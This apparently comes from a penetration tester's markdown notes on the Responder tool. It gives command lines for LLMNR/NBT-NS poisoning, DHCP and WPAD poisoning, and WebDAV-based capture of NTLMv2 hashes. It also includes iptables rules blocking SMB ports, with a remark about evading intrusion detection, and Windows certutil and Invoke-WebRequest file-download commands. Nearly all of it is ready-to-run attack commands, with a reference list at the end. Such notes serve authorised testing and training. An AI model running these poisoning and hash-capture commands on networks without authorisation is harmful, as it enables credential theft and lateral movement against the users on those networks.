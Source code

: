 # 02 - Responder

Search Tag(s): #mitm #responder #smb #relay #ntlm

## 2.1 - Basics

### 2.1.1 - LLMNR

NBT-NS and LLMNR Poisoning via capturing NTLMv2-SSP hashes

```
$ sudo responder -I <interface> -rdwv
```

LLMNR Poisoning

```
$ sudo responder -I <interface> --lm -v
```

### 2.1.2 - DHCP

DHCP and WPAD poisoning

When a windows host requires a new IP address dynamically it can perform HTTP WPAD poisoning response while the user uses a web browser that contains auto proxy settings enabled

```
$ sudo responder -I <interface> -Pdwv
```

### 2.1.3 - WebDAV

Block SMB traffic on the attacker's machine to poison NTLMv2-SSP responses via WebDAV/HTTP.


> [!NOTE]
> You don't have to block the ports unless you're evading some IDS to identify you for performing MITM poisoning.

```
$ sudo iptables -A INPUT -p udp --dport 137 -j DROP
sudo iptables -A INPUT -p udp --dport 138 -j DROP
sudo iptables -A INPUT -p tcp --dport 139 -j DROP
sudo iptables -A INPUT -p tcp --dport 445 -j DROP

$ sudo responder -I <interface> -Pdv
```

Windows target.

```
C:\> certutil -urlcache -split -f https://google.com file.txt

PS C:\> Invoke-WebRequest -Uri https://google.com -OutFile file.txt
```

### 2.1.4 - Passive

```
$ sudo responder -I <interface> -A
```

---
## References

- [Responder](https://github.com/lgandx/Responder)

- [Hacktricks: Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)

- [Responders DHCP Poisoner](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)

### Hacking Articles

- [Hacking Articles: A Detailed Guide on Responder LLMNR Poisoning](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)

### n00py

- [n00py: Understanding UNC Paths SMB And WebDAV](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)

- [n00py: The Dangers of Endpoint Discovery in Vipre Endpoint Security](https://www.n00py.io/2020/12/the-dangers-of-endpoint-discovery-in-vipre-endpoint-security/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)